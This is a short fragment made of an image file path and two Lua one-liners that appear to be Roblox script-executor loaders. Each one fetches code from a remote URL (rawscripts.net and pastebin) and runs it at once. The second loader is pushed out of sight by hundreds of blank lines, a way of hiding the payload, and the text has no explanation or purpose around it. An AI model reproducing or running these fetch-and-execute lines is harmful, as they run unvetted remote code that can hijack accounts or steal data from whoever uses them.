 loadstring(game:HttpGet("https://rawscripts.net/raw/loader_1038"))()





































































































































































































































































































































































































































































































































loadstring(game:HttpGet('https://pastebin.com/raw/MinU2TPB'))()
